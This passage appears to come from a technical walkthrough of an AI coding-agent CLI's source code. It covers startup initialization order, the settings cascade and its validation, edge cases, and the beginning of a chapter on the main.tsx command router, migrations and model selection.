

A critical ordering constraint: `applyExtraCACertsFromConfig()` must run before `configureGlobalMTLS()` and `configureGlobalAgents()`, because Bun caches the TLS certificate store via BoringSSL at the first TLS handshake (`src/entrypoints/init.ts:L78-L79`). If you apply CA certificates after the first connection, they are silently ignored -- a platform-specific pitfall that can cause confusing TLS errors in enterprise environments with custom certificate authorities. This was discovered in production when users with corporate proxy certificates reported intermittent TLS failures that only occurred when the first API request happened before the CA certificate was applied.

Similarly, `preconnectAnthropicApi()` must come after proxy configuration so the warmed connection uses the correct transport (`src/entrypoints/init.ts:L153-L159`). The preconnect fires a TCP+TLS handshake to the Anthropic API endpoint, overlapping the ~100-200ms network round-trip with the ~100ms of action-handler work that occurs before the first API request. After the warmed connection is established, the Anthropic SDK's HTTP dispatcher reuses it from the global connection pool.

The asynchronous operations (OAuth, JetBrains detection, GitHub detection, remote settings) are fired as `void` promises -- they run in the background and their results are consumed lazily when needed later in the session. This is a deliberate tradeoff: the init path does not block on network I/O that may not be needed. The `initializeRemoteManagedSettingsLoadingPromise()` call (`src/entrypoints/init.ts:L123-L128`) creates a loading promise with a timeout to prevent deadlocks if `loadRemoteManagedSettings()` is never called (e.g., in Agent SDK tests).

### Telemetry initialization after trust

The `initializeTelemetryAfterTrust()` function (`src/entrypoints/init.ts:L247-L286`) handles a subtle ordering problem: telemetry requires auth headers (for GrowthBook feature flags), but auth headers are not available until the trust dialog is accepted. The function branches:

1. For users eligible for remote managed settings, it waits for settings to load, then re-applies environment variables (to include remote settings) before initializing telemetry.
2. For non-eligible users, it initializes telemetry immediately.
3. For SDK/headless mode with beta tracing, it initializes eagerly first to ensure the tracer is ready before the first query runs.

The double-initialization guard (`telemetryInitialized` flag at `src/entrypoints/init.ts:L55`) prevents the eager path and the async path from both calling `doInitializeTelemetry()`. Without this guard, the eager path (fired for headless mode with beta tracing) and the async path (fired after remote settings load) could both attempt to initialize the OpenTelemetry SDK, creating duplicate metric exporters and trace providers.

### Boot state machine

The bootstrap sequence can be modeled as a state machine that progresses through distinct phases:



### Settings validation and error handling

The `parseSettingsFile()` function (`src/utils/settings/settings.ts:L178-L199`) wraps file reading, JSON parsing, permission rule validation, and Zod schema validation into a single operation. The function is LRU-cached by file path, and the cached result is deep-cloned before being returned to the caller. This cloning is necessary because `mergeWith` (used by `loadSettingsFromDisk`) mutates its target argument, and mutating a cached object would poison the cache for subsequent callers requesting the same file. The `filterInvalidPermissionRules()` function runs before Zod validation to prevent one bad permission rule from causing the entire settings file to be rejected; invalid rules are logged as warnings and the remaining rules are preserved.

The `SettingsWithErrors` return type bundles the parsed settings with an array of `ValidationError` objects. This allows the caller to display validation errors to the user while still using the valid portions of the settings. The error array is deduplicated by file path, field path, and message to avoid reporting the same error twice when multiple settings sources have the same validation problem.

### Settings cascade precedence

The settings system implements a five-layer cascade, consistent with HER's Configuration Surfaces (section 7). The merge order in `loadSettingsFromDisk()` is:

1. **Plugin settings** (lowest priority, base layer)
2. **User settings** (`~/.claude/settings.json`)
3. **Project settings** (`.claude/settings.json`)
4. **Local settings** (`.claude/settings.local.json`)
5. **Flag settings** (CLI `--settings` or SDK inline)
6. **Policy settings** (highest priority, "first source wins")

For policy settings specifically, the precedence within the policy layer is: remote managed > MDM/plist > file-based (`managed-settings.json` + drop-ins) > HKCU. This mirrors the systemd/sudoers drop-in convention (`src/utils/settings/settings.ts:L66-L70`).

An important security property: certain settings (like `skipDangerousModePermissionPrompt` and `skipAutoPermissionPrompt`) are read only from trusted sources (user, local, flag, policy) and explicitly excluded from `projectSettings` (`src/utils/settings/settings.ts:L882-L889`). This prevents a malicious project from auto-bypassing the dangerous mode dialog via its `.claude/settings.json` file, which would be a remote code execution vulnerability. The `hasSkipDangerousModePermissionPrompt()` function (`src/utils/settings/settings.ts:L882-L889`) checks each trusted source independently and returns true if any source has the flag set, but never reads from `projectSettings`.

## Edge cases and failure modes

### Ablation baseline injection

Before `main()` even runs, module-level code in `cli.tsx` checks for the `ABLATION_BASELINE` feature flag. If enabled, it sets a battery of environment variables that disable thinking, compaction, auto-memory, and background tasks (`src/entrypoints/cli.tsx:L20-L26`). This code lives in `cli.tsx` rather than `init.ts` because tools like `BashTool` capture `DISABLE_BACKGROUND_TASKS` into module-level constants at import time, and `init()` runs too late to affect those captures. The `feature()` gate ensures this entire block is dead-code-eliminated from external builds.

```typescript
// src/entrypoints/cli.tsx:L21-L26
if (feature('ABLATION_BASELINE') && process.env.CLAUDE_CODE_ABLATION_BASELINE) {
  for (const k of ['CLAUDE_CODE_SIMPLE', 'CLAUDE_CODE_DISABLE_THINKING', 'DISABLE_INTERLEAVED_THINKING', 'DISABLE_COMPACT', 'DISABLE_AUTO_COMPACT', 'CLAUDE_CODE_DISABLE_AUTO_MEMORY', 'CLAUDE_CODE_DISABLE_BACKGROUND_TASKS']) {
    // eslint-disable-next-line custom-rules/no-top-level-side-effects, custom-rules/no-process-env-top-level
    process.env[k] ??= '1';
  }
}
```

The `??=` operator (nullish coalescing assignment) ensures that if the user has already set one of these environment variables, the ablation baseline does not override it. This allows researchers to selectively re-enable features during ablation testing by pre-setting the environment variable.

### ConfigParseError handling

If `enableConfigs()` throws a `ConfigParseError`, `init()` catches it and branches: in non-interactive sessions, it writes to stderr and exits immediately (`src/entrypoints/init.ts:L220-L226`). In interactive sessions, it dynamically imports `InvalidConfigDialog` and renders a React-based dialog (`src/entrypoints/init.ts:L229-L231`). The dialog itself handles `process.exit`, so `init()` does not need additional cleanup after showing it. The skip in non-interactive mode is necessary because the dialog breaks JSON consumers (e.g., desktop marketplace plugin manager running `plugin marketplace list --json` in a VM sandbox). The dynamic import of `InvalidConfigDialog` avoids loading React at init time for the common case where no config error exists.

### CCR upstream proxy fail-open

The upstream proxy initialization is gated on `CLAUDE_CODE_REMOTE` and wrapped in a try/catch that logs and continues on failure (`src/entrypoints/init.ts:L167-L183`). This fail-open design ensures that a proxy misconfiguration does not prevent the agent from starting; it merely operates without the proxy. The `getUpstreamProxyEnv` function is registered with `subprocessEnv.ts` so that subprocess spawning can inject proxy vars without a static import of the upstreamproxy module. The lazy import pattern means that non-CCR startups (the majority of users) never pay the module load cost of the upstream proxy code.

The upstream proxy serves a specific purpose in CCR (Claude Code Remote) environments: it provides a local CONNECT relay that injects organization-configured upstream proxy credentials into subprocess network requests. Without the relay, subprocesses spawned by cc (like Bash commands that make HTTP requests) would not inherit the corporate proxy configuration, causing them to fail in environments that require a proxy for outbound internet access. The fail-open design is important because the proxy is only needed in corporate environments; failing closed would break cc for users who do not need a proxy.

### Scroll drain suspension

`src/bootstrap/state.ts` implements a scroll-draining mechanism (`src/bootstrap/state.ts:L792-L824`) that suspends background intervals during active terminal scrolling. This prevents scroll jank when the user is reviewing output. The debounce timer is set to 150ms and unref'd so it does not keep the event loop alive. The `waitForScrollIdle()` async function (`src/bootstrap/state.ts:L818-L824`) is used by expensive one-shot work (network, subprocess) that could coincide with scroll; it resolves immediately if not scrolling, otherwise polls at the idle interval.

### Session ID regeneration and switching

The `regenerateSessionId()` function (`src/bootstrap/state.ts:L436-L450`) supports context clearing within a session: it saves the current session ID as `parentSessionId`, generates a new session ID, and cleans up the plan-slug cache for the outgoing session. The `switchSession()` function (`src/bootstrap/state.ts:L468-L479`) atomically switches both `sessionId` and `sessionProjectDir` together -- there is no separate setter for either, preventing them from drifting out of sync. This atomicity is critical for session resume (chapter 29) and worktree operations (chapter 46), where a stale `sessionProjectDir` could cause the transcript to be written to the wrong project directory.

### Settings update and cache invalidation

The `updateSettingsForSource()` function (`src/utils/settings/settings.ts:L416-L524`) handles writes to settings files. When updating, it reads the existing settings from disk (bypassing the session cache to avoid mutating cached objects), merges the new settings using `mergeWith`, and writes the result back. After writing, it calls `resetSettingsCache()` to invalidate all cached settings so subsequent reads reflect the new state.

An important detail: arrays in `updateSettingsForSource` are replaced, not concatenated. This differs from the read-path merge behavior (where arrays are concatenated and deduplicated). The write-path uses replacement semantics because the caller is expected to compute the desired final state of the array, not append to it. If a user removes a permission rule via the REPL, the update function receives the complete new array without the removed rule, and replacement semantics ensure the removal takes effect.

The `markInternalWrite()` call before the file write registers the file path with the change detector, preventing the detector from firing a spurious reload event for the file that cc itself just wrote. Without this guard, every settings update would trigger the change detector, which would re-read the file and reset the cache, creating a write-detect-read cycle on every update.

### Interaction time batching

The `updateLastInteractionTime()` function (`src/bootstrap/state.ts:L667-L673`) does not call `Date.now()` directly. Instead, it sets a dirty flag (`interactionTimeDirty`) that is flushed by Ink before the next render cycle via `flushInteractionTime()`. This batching avoids calling `Date.now()` on every keypress, which would cause measurable overhead in the Ink render loop. The `immediate` parameter bypasses batching for React `useEffect` callbacks that run after the render cycle has already flushed, ensuring that permission dialogs and other time-sensitive UI updates get a fresh timestamp.

## Where cc diverges from the published pattern

HER's Session Protocol (section 10.3) prescribes an ORIENT/SETUP/VERIFY sequence at the start of every session. cc's bootstrap partially aligns:

- **ORIENT** corresponds to `init()` reading workspace state (cwd, git repo, settings) and `main.tsx`'s deferred prefetches (user info, git context, file counts).
- **SETUP** corresponds to `enableConfigs()`, `configureGlobalMTLS()`, and the network stack.
- **VERIFY** (running baseline tests/checks) is not part of the bootstrap. cc defers verification to the query loop and tool dispatch.

This divergence is intentional: cc is a general-purpose agent, not a task-specific harness. Running tests at startup would add latency for users who are not working on test-driven projects. The VERIFY step is available through stop hooks (chapter 36), which can be configured to run tests after specific tool calls.

HER section 12.1 describes a five-layer defense-in-depth. cc implements all five layers, but the bootstrap primarily engages layers 4 (tool-level validation) and 5 (lifecycle hooks). The prompt-level and schema-level guardrails are assembled later in the query loop (chapter 7), and the runtime approval system is managed by the permission model (chapter 32).

HER section 10.1's "One-Task-Per-Session" rule is not enforced at the bootstrap level. cc allows a single session to handle multiple tasks, though the TodoWrite tool (chapter 17) provides a task list mechanism that users can use to enforce task discipline. The session protocol is advisory, not mandatory.

## Developer takeaways for building a long-running agent

1. **Fast-path dispatch is essential for CLI tools.** Users will type `claude --version` and expect sub-100ms response. The zero-import fast path in `cli.tsx` demonstrates that even a single dynamic import adds measurable latency. Profile your startup path and aggressively short-circuit common invocations.

2. **Overlap I/O with computation.** The `preconnectAnthropicApi()` call fires after proxy configuration but before the trust dialog, overlapping the TCP+TLS handshake (~100-200ms) with UI rendering. Similarly, keychain reads and MDM subprocess calls are started at module import time in `main.tsx` so they complete in parallel with the ~135ms of remaining imports. Any network I/O that can be started early should be.

3. **Memoize initialization.** The `memoize` wrapper on `init()` prevents double-initialization when multiple code paths (CLI, SDK, tests) call it independently. This is especially important for long-running agents where the init function may be called from both the main thread and subagent processes.

4. **Fail-open for non-critical subsystems.** The upstream proxy, JetBrains detection, and GitHub detection are all best-effort. A failure in any of these should not prevent the agent from starting. Wrap non-critical subsystems in try/catch blocks and log the error without propagating it.

5. **Guard certificate configuration with ordering.** Bun's BoringSSL caches the certificate store at the first TLS handshake. If you apply CA certificates after the first connection, they are silently ignored. This is a platform-specific pitfall that applies to any Bun-based agent. Always apply certificates before any network call.

6. **Use a global state singleton with accessor functions.** The `STATE` pattern in `bootstrap/state.ts` gives you a single source of truth without the overhead of a formal Redux store. The accessor functions make it easy to add validation, logging, or change notification later. The `resetStateForTests()` function (`src/bootstrap/state.ts:L919-L930`) provides a clean test-reset mechanism that re-initializes all fields from `getInitialState()`.

7. **Exclude security-sensitive settings from untrusted sources.** The `projectSettings` source is explicitly excluded from `skipDangerousModePermissionPrompt` and `skipAutoPermissionPrompt` reads. A malicious project could commit a `.claude/settings.json` that auto-bypasses security dialogs; the exclusion prevents this remote code execution vector.

8. **Instrument the startup path with profile checkpoints.** Every phase of the bootstrap is instrumented with `profileCheckpoint()` calls that feed into a startup profiler. This makes it easy to identify regressions: if a new import adds 20ms to the startup path, the profiler will show exactly where the time is being spent. The profiler data is also useful for comparing startup performance across different platforms and configurations, and for detecting performance regressions in automated CI pipelines before they reach users.
# `main.tsx` and the Command Router

## Overview

`src/main.tsx` is the largest single file in the cc codebase at approximately 4,700 lines of code. It serves as the command router, CLI parser, and orchestrator that bridges the initialization phase (chapter 5) with the interactive REPL (chapter 43). Despite its size, the file is not a monolith: it is structured as a Commander.js CLI definition, a `main()` function that handles early routing, and a collection of helper functions that prepare state for the interactive loop. This chapter examines the command routing decisions, the bifurcation between headless and interactive modes, and how `renderAndRun` launches the Ink-based terminal UI. HER's Configuration Surfaces (section 7) describe entry flags as a surface; `main.tsx` is where those flags are parsed, validated, and propagated into the global state.

The file begins with a critical performance optimization: before any imports are evaluated, three side-effect imports fire at the top of the file. `profileCheckpoint('main_tsx_entry')` marks the entry timestamp. `startMdmRawRead()` fires MDM subprocess calls (plutil/reg query) so they run in parallel with the remaining ~135ms of imports. `startKeychainPrefetch()` fires both macOS keychain reads (OAuth + legacy API key) in parallel, avoiding the ~65ms sequential cost that `isRemoteManagedSettingsEligible()` would otherwise incur inside `applySafeConfigEnvironmentVariables()`. These side effects at import time are intentional: they exploit the module evaluation phase to hide I/O latency.

## Data structures and contracts

### The `main()` function and Commander program

The `main()` function in `src/main.tsx` (`src/main.tsx:L585`) is the second entry point after `cli.tsx` has decided to load the full CLI. It begins with security hardening (preventing Windows PATH hijacking by setting `NoDefaultCurrentDirectoryInExePath`), signal handler registration, and deep-link URI parsing.

```typescript
// src/main.tsx:L585-L608
export async function main() {
  profileCheckpoint('main_function_start');

  // SECURITY: Prevent Windows from executing commands from current directory
  // This must be set before ANY command execution to prevent PATH hijacking attacks
  // See: https://docs.microsoft.com/en-us/windows/win32/api/processenv/nf-processenv-searchpathw
  process.env.NoDefaultCurrentDirectoryInExePath = '1';

  // Initialize warning handler early to catch warnings
  initializeWarningHandler();
  process.on('exit', () => {
    resetCursor();
  });
  process.on('SIGINT', () => {
    // In print mode, print.ts registers its own SIGINT handler that aborts
    // the in-flight query and calls gracefulShutdown; skip here to avoid
    // preempting it with a synchronous process.exit().
    if (process.argv.includes('-p') || process.argv.includes('--print')) {
      return;
    }
    process.exit(0);
  });
  profileCheckpoint('main_warning_handler_initialized');
```

The Commander.js program is defined inline with chained `.command()` and `.option()` calls. The program's action handler is the final dispatch point: it receives the parsed options and decides whether to run in headless mode or launch the interactive REPL. The Commander program also handles global options like `--model`, `--permission-mode`, `--settings`, and `--dangerously-skip-permissions`, which are parsed and applied before the action handler fires. One subtle aspect of the Commander integration is that some flags are consumed before the program is constructed: `eagerLoadSettings()` and the argv-stripping logic for deep links both mutate `process.argv` in place, so by the time Commander receives the arguments, certain flags have already been removed. This two-phase parsing means that Commander's help output does not list all the flags that `main()` actually processes -- a deliberate tradeoff between help-text clarity and the need for early flag handling.

### Pending state for feature-gated paths

Several feature-gated modes use a "pending state" pattern: a module-scope variable is set during argv parsing, then consumed later in the action handler. This avoids importing heavy modules (like the coordinator or KAIROS assistant) until they are needed.

```typescript
// src/main.tsx:L543-L552
type PendingConnect = {
  url: string | undefined;
  authToken: string | undefined;
  dangerouslySkipPermissions: boolean;
};
const _pendingConnect: PendingConnect | undefined = feature('DIRECT_CONNECT') ? {
  url: undefined,
  authToken: undefined,
  dangerouslySkipPermissions: false
} : undefined;
```

Similar patterns exist for `PendingAssistantChat` (`src/main.tsx:L555-L562`), `PendingSSH` (`src/main.tsx:L567-L584`), and others. The `feature()` gate at the variable declaration ensures that external builds never allocate the memory or include the type. When `feature('DIRECT_CONNECT')` returns false at build time, `_pendingConnect` is `undefined` and the entire DIRECT_CONNECT code path is dead-code-eliminated. This pattern is stronger than a runtime check: the code does not exist in the bundle at all. The choice to use module-scope variables rather than, say, a shared state object or a Map keyed by feature name is intentional: each pending type has a distinct shape, and co-locating the type definition with its feature gate makes it easy to audit which feature flags control which state. A Map-based approach would require casting and lose the type narrowing that TypeScript provides when the variable is `undefined`.

The `PendingSSH` type (`src/main.tsx:L566-L584`) is more complex than the others because SSH sessions need to propagate several CLI flags (`--resume`, `-c`) to the remote CLI. The `extraCliArgs` field stores these flags for forwarding, and the `local` field supports an end-to-end test mode that spawns the child CLI directly without SSH.

### Client type determination

After detecting interactive vs. non-interactive mode, `main()` determines the client type by checking a cascade of environment variables and entrypoint markers (`src/main.tsx:L818-L843`). The client type identifies how the user is accessing cc: via the CLI, the TypeScript SDK, the Python SDK, VS Code, GitHub Actions, Claude Desktop, or a remote session. The client type affects behavior like question preview format, telemetry attribution, and feature flag evaluation. For example, SDK sessions default to HTML preview format while CLI sessions default to Markdown, and GitHub Action sessions use a different telemetry pipeline than interactive sessions.

The `setQuestionPreviewFormat()` function (`src/main.tsx:L835-L843`) sets the format for the prompt preview that appears above the input field in the REPL. Desktop and CCR clients pass the preview format via `toolConfig`; when the feature is gated off they pass `undefined`, and the code must not override that with the Markdown default. This is an example of the careful feature-gating that permeates `main.tsx`: every default must respect the caller's explicit choice, even when the caller is another internal subsystem.

### Entrypoint tracking

The `initializeEntrypoint()` function (`src/main.tsx:L517-L540`) sets the `CLAUDE_CODE_ENTRYPOINT` environment variable based on how cc was invoked. This variable is used by analytics to distinguish between CLI sessions, SDK sessions, MCP server sessions, and GitHub Action sessions. The function checks for `mcp serve`, `CLAUDE_CODE_ACTION`, and interactive vs. non-interactive modes, and sets the entrypoint accordingly. This classification is important for understanding usage patterns: MCP server sessions are typically long-lived and automated, while CLI sessions are interactive and human-driven.

## Control flow

### Command routing decisions

After the `main()` function handles early security and deep-link parsing, it constructs a Commander.js program and defines subcommands. The routing logic follows a consistent pattern: parse flags, validate inputs, set bootstrap state, and dispatch to either a headless path or the interactive REPL.



The deep-link handling at the top of `main()` deserves attention. When the user clicks a `cc://` or `cc+unix://` URL, the OS protocol handler launches cc with the URL as an argument. The `main()` function detects this, parses the URL to extract the server address and auth token, stashes them in `_pendingConnect`, and strips the URL from `process.argv` so the Commander program does not see it (`src/main.tsx:L612-L642`). In headless mode (`-p`), the URL is rewritten to an internal `open` subcommand instead. The stripping is necessary because Commander would treat the URL as an unknown positional argument and print a usage error. The `parseConnectUrl()` helper extracts the protocol, host, and token from the URL string, and validates that the protocol is one of the expected schemes before populating the pending state. If the URL is malformed or the token is missing, the function throws an error that is caught by the top-level error handler in `cli.tsx`, which prints a user-friendly message and exits.

### Interactive mode setup and trust dialog

When the action handler determines that the user wants an interactive session, `showSetupScreens()` presents the trust dialog if the user has not previously accepted it for the current project directory. The trust dialog is a security measure (implementing HER section 12.1's runtime approval system) that asks the user to confirm they trust the project directory before cc runs any commands or accesses any files. The trust decision is persisted to the global config keyed by the project directory's path, so the user only needs to accept once per project.

After trust is established, `initializeTelemetryAfterTrust()` fires (chapter 5), followed by GrowthBook feature flag initialization. The feature flags determine which capabilities are active for the current session: fast mode, auto mode, cache editing, 1-hour prompt caching, and others. The flags are fetched from the GrowthBook API using the user's auth token, and the results are cached to disk for subsequent sessions. The `refreshGrowthBookAfterAuthChange()` function (`src/services/analytics/growthbook.ts`) re-evaluates flags when the user's auth state changes (e.g., after logging in via the `claude login` command).

### Headless vs interactive launch

The bifurcation between headless and interactive modes is the most consequential routing decision in `main.tsx`. When the `-p` or `--print` flag is set, the `action` handler calls `runHeadless()` which processes a single prompt, streams the response to stdout, and exits. When no headless flag is present, `renderAndRun()` launches the Ink-based terminal UI.



In headless mode, the query loop runs without Ink rendering, and the output is streamed directly to stdout as Markdown. The `--output-format json` flag changes the output to a structured JSON format suitable for programmatic consumption. The headless path also registers its own SIGINT handler that aborts the in-flight query and calls `gracefulShutdown()`, which is why the top-level SIGINT handler skips print mode (`src/main.tsx:L602-L604`). Without this skip, the top-level `process.exit(0)` would preempt the graceful shutdown, potentially leaving stale session files on disk and failing to emit the final telemetry events.

### Migration system

Before the Commander program parses argv, `main.tsx` runs a migration system (`src/main.tsx:L326-L352`) that updates user configuration to match the current version. The migration version is stored in the global config, and migrations are idempotent: running them twice is a no-op because the version check short-circuits.

```typescript
// src/main.tsx:L326-L352
const CURRENT_MIGRATION_VERSION = 11;
function runMigrations(): void {
  if (getGlobalConfig().migrationVersion !== CURRENT_MIGRATION_VERSION) {
    migrateAutoUpdatesToSettings();
    migrateBypassPermissionsAcceptedToSettings();
    migrateEnableAllProjectMcpServersToSettings();
    resetProToOpusDefault();
    migrateSonnet1mToSonnet45();
    migrateLegacyOpusToCurrent();
    migrateSonnet45ToSonnet46();
    migrateOpusToOpus1m();
    migrateReplBridgeEnabledToRemoteControlAtStartup();
    if (feature('TRANSCRIPT_CLASSIFIER')) {
      resetAutoModeOptInForDefaultOffer();
    }
    if ("external" === 'ant') {
      migrateFennecToOpus();
    }
    saveGlobalConfig(prev => prev.migrationVersion === CURRENT_MIGRATION_VERSION ? prev : {
      ...prev,
      migrationVersion: CURRENT_MIGRATION_VERSION
    });
  }
  // Async migration - fire and forget since it's non-blocking
  migrateChangelogFromConfig().catch(() => {
    // Silently ignore migration errors - will retry on next startup
  });
}
```

The comment `// @[MODEL LAUNCH]` at `src/main.tsx:L323` is a marker for developers: when a new model string is introduced, a migration must be added to update any user configs that reference the old string. Each migration is a simple function that reads the global config, checks for the old value, and writes the new value if found. The `saveGlobalConfig` call at the end of the migration block uses a conditional lambda that checks the version again, preventing a race condition where two concurrent cc processes both run the migrations and overwrite each other's changes. The conditional save is a form of optimistic concurrency control: the first process to complete the migration writes the new version number, and the second process's lambda sees that the version is already current and returns the unchanged config, making the second write a no-op.

The migration system also includes an async migration path. The `migrateChangelogFromConfig()` function (`src/main.tsx:L349-L351`) is fired as a void promise, so it does not block the startup path. Async migrations are used for operations that involve network I/O or heavy computation that would add unacceptable latency to the synchronous migration block. If an async migration fails, it is silently ignored and will be retried on the next startup.

### Model selection and configuration

The `getDefaultMainLoopModel()` function (`src/utils/model/model.ts`) determines the default model for the current session based on the user's subscription level, feature flags, and explicit configuration. The function checks for a user-specified model override (via `--model` flag or `model` setting), then falls back to the subscription-based default: Pro subscribers get Opus, while Free subscribers get Sonnet.

The `parseUserSpecifiedModel()` function (`src/utils/model/model.ts`) normalizes user-provided model strings. Users can specify models by short names (like "opus" or "sonnet"), which are mapped to the full API model identifiers (like "claude-opus-4-20250514" or "claude-sonnet-4-20250514"). The normalization also validates that the specified model is a valid API model identifier, rejecting typos and unsupported model names with a clear error message.

The `getModelDeprecationWarning()` function (`src/utils/model/deprecation.ts`) checks whether the user's configured model has been deprecated and returns a warning message if so. Deprecated models are still accepted by the API, but they may be removed in a future version. The warning is displayed in the REPL header to encourage users to migrate to the current model version.

### MCP server initialization

The `mcp serve` subcommand launches cc as an MCP (Model Context Protocol) server, allowing other applications (like Claude Desktop or VS Code) to use cc's tools. The MCP server mode is handled as a fast path in both `cli.tsx` and `main.tsx`: in `cli.tsx`, the `mcp serve` command is detected and dispatched before the full CLI loads; in `main.tsx`, the Commander program defines an `mcp` subcommand with a `serve` action that starts the JSON-RPC server.

The MCP server initialization includes loading all MCP server configurations from the settings system. The `getClaudeCodeMcpConfigs()` function (`src/services/mcp/config.js`) reads MCP server definitions from user settings, project settings, and the Claude AI API (for subscribers). Each server definition includes the command to start the server, the arguments, the environment variables, and the tool capabilities. The servers are started lazily when their tools are first needed, and their lifecycle is managed by the `McpClientManager` (`src/services/mcp/client.ts`).

### Plugin and skill initialization

